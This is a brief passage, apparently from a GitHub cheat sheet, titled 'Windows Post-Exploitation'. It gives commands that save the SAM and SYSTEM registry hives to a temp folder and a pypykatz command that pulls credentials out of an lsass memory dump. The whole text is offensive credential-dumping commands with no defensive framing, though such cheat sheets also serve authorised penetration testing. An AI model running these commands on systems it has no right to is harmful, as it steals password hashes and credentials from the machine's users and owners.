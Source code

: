 #### Windows Post-Exploitation
- Dump SAM/SYSTEM (local)
```bash
reg save HKLM\SAM c:\temp\sam
reg save HKLM\SYSTEM c:\temp\system
```
- Offline analysis of lsass dump using pypykatz
```bash
pypykatz lsa minidump lsass.dmp
```